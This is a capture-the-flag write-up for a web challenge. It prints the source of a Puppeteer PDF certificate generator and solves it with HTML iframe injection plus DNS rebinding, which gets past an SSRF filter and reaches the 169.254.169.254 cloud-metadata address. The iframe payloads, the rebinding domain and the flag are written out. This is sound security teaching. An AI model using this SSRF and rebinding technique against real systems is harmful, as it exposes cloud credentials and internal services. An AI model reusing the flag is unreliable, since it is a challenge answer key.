







# Endgame

**Difficulty:** Hard
**Category:** Web
**Source Code:** Available
**Author:** 0utc4st
**Description:** Transforming the ordinary into a weapon, it exploits our trust in the familiar.

## Source Code

```javascript
const express = require('express');
const app = express();
const bodyParser = require('body-parser');
const handlebars = require('express-handlebars');
const puppeteer = require('puppeteer');
const ssrfFilter = require('ssrf-req-filter');
const axios = require('axios');
const dns = require('dns');

app.engine('handlebars', handlebars({ layoutsDir: __dirname + '/views/layouts', defaultLayout: false }));
app.set('view engine', 'handlebars');

app.use(bodyParser.json());
app.use(express.static('public'));

app.get('/', (req, res) => {
    res.render('index');
});

app.post('/generate', async (req, res) => {
    const name = req.body.name;

    const data = `
    <!DOCTYPE html>
        <html>
        <head>
            <title>Nexzero CTF Participation Certificate</title>
        </head>
        <style>
            body {
                background-color: #1B1919;
                color: #666; 
                font-family: Arial, sans-serif;
                text-align: center;
            }
            h1, h2, h3 {
                color: #F05323; 
            }
            .container {
                border: 2px solid #F05323;
                padding: 20px;
                max-width: 600px;
                margin: 0 auto;
            }
        </style>
        <body>
        <br>
        <br>
        <br>
        <br>
            <div class="container">
                <h1>Nexzero CTF Participation Certificate</h1>
                <p>This certifies that</p>
                <h2>${name}</h2>
                <p>has participated in the Nexzero Capture The Flag (CTF) event.</p>
                <p>Awarded on this day,</p>
                <p>${new Date().toLocaleDateString('en-US', { year: 'numeric', month: 'long', day: 'numeric' })}</p>
                <br>
            </div>
        </body>
        </html>
    `
    const browser = await puppeteer.launch();
    const page = await browser.newPage();

    await page.setRequestInterception(true);
    page.on('request', async (request) => {
        let result = await isUrlSafe(request.url())
        console.log('result: ' + result)
        if (result) {
            if (result == '169.254.169.254') {
                request.respond({status: 200, contentType: 'text/plain', body: 'nexus{F4k3_Fl4g_F0r_T3st1ng}'});
            } else {
                request.continue();
            }
        } else {
            request.respond({status: 200, contentType: 'text/plain', body: 'NO NO...Not That Easy!'});        
        }
    });

    try {
        await page.setContent(data, {timeout: 5000});
        await page.pdf({ path: 'certificate.pdf', format: 'A4' });
        await browser.close();
        res.download('certificate.pdf', 'certificate.pdf');
    } catch (error) {
        res.json(error)
    }
});


async function isUrlSafe(url) {
    try {
        await axios.get(url, {httpAgent: ssrfFilter(url), httpsAgent: ssrfFilter(url)});
    } catch (error) {
        console.log('Request Blocked: ' + url)
        return false;
    }
    
    let domain = new URL(url).hostname;

    if (domain) {
        await new Promise(resolve => setTimeout(resolve, 1000));
        const addresses = await dns.promises.resolve4(domain);
        if (addresses) {
            console.log(addresses)
            return addresses[0];  
        }
    }
    return '0.0.0.0'
}

const PORT = process.env.PORT || 3000;
app.listen(PORT, () => {
    console.log(`Server is running on port ${PORT}`);
});
```

## Solution

From the source code, we see that it's a certificate generator. When we visit the page, we get this page:



When we input something like `test`, we get this PDF:



We see that our name is embedded directly on the page.

We can perform HTML injection. Here, XSS won't be useful. But if we look closely at the source code, we see this:

```javascript
 page.on('request', async (request) => {
        let result = await isUrlSafe(request.url())
        console.log('result: ' + result)
        if (result) {
            if (result == '169.254.169.254') {
                request.respond({status: 200, contentType: 'text/plain', body: 'nexus{F4k3_Fl4g_F0r_T3st1ng}'});
            } else {
                request.continue();
            }
        } else {
            request.respond({status: 200, contentType: 'text/plain', body: 'NO NO...Not That Easy!'});
...
async function isUrlSafe(url) {
    try {
        await axios.get(url, {httpAgent: ssrfFilter(url), httpsAgent: ssrfFilter(url)});
    } catch (error) {
        console.log('Request Blocked: ' + url)
        return false;
    }
    
    let domain = new URL(url).hostname;

    if (domain) {
        await new Promise(resolve => setTimeout(resolve, 1000));
        const addresses = await dns.promises.resolve4(domain);
        if (addresses) {
            console.log(addresses)
            return addresses[0];  
        }
    }
    return '0.0.0.0'
}
```

If this page requests some URL, it checks if the URL is safe with the `isUrlSafe()` function. This function is defined below that code, which basically checks if the URL is malicious using the `ssrfFilter` package, then resolves the URL to its IP address and returns that IP.

If the URL passes the `isUrlSafe()` check, the code checks if the resolved URL IP is equal to `169.254.169.254`. If so, we get the flag as the response.

First of all, we need to find how to make a request from that PDF page. Since we can control the value of the `name` field, we can perform an HTML injection to inject an `<iframe>` tag, and with it, we can request any page we want.

Let's try that by giving the name as this payload:
```html
<iframe src='http://169.254.169.254'></iframe>
```

which requests the `169.254.169.254` address that is supposed to give us the flag:





We see that the page attempted to request that IP, but the request was blocked. The reason is that IP is getting blocked by the `ssrfFilter` package because that IP is the famous AWS metadata IP address, which is considered malicious.

But if we look closely at the code's logic, we see that it performs that `ssrfFilter` check, then it resolves that host to its IP address if we give it a hostname. This means if we find a way to give it a domain name that will resolve to a safe IP address, which will bypass the `ssrfFilter`, then after that, the domain will change its resolvable IP to `169.254.169.254`. Then it passes through this code:

```javascript
if (domain) {
        await new Promise(resolve => setTimeout(resolve, 1000));
        const addresses = await dns.promises.resolve4(domain);
        if (addresses) {
            console.log(addresses)
            return addresses[0];  
        }
    }
```

which will resolve that domain to `169.254.169.254` and return that. With this, we will bypass the SSRF check and make the function return `169.254.169.254`, then we get the flag.

We can do this. This is what's called DNS rebinding, which is making a domain return 2 different IPs in a short amount of time. There is an online tool that does this for us, which is [rebinder](https://lock.cmpxchg8b.com/rebinder.html).

When we visit that page, we must give it two IP addresses. The first will be a safe resolvable IP address, and the second address would be `169.254.169.254`.

Searching for none known HTTP sites, we find [this](http://httpforever.com/). Now we must get its IP. We can do that with `dig`:

```plaintext
└─$ dig httpforever.com                         
...
httpforever.com.        300     IN      A       146.190.62.39
```

We have the IP. Now let's give it to that online tool:



Now we have this domain name `92be3e27.a9fea9fe.rbndr.us`.

If we try to resolve it two times in a row, we get this:

```plaintext
└─$ nslookup 92be3e27.a9fea9fe.rbndr.us;nslookup 92be3e27.a9fea9fe.rbndr.us

Address: 146.190.62.39

...
Address: 169.254.169.254
```

We see that in the first time it returned `146.190.62.39` and in the second time it returned `169.254.169.254`

this is exactly what we need to perform the dns rebinding, now let's give that pdf page this domain in the `iframe` tag :

```html
<iframe src='http://92be3e27.a9fea9fe.rbndr.us'></iframe>
```

to make sure this will work, we will give it multiple copies of that tag, this way we will make sure one of them will work and resolve first to `146.190.62.39` then `169.254.169.254` :



now when we send that we get this PDF :



And we have the flag!

## Flag

`nexus{1f_Y0u_$33_Th1s_Th3n_Y0u_4r3_4_L3g3nd}`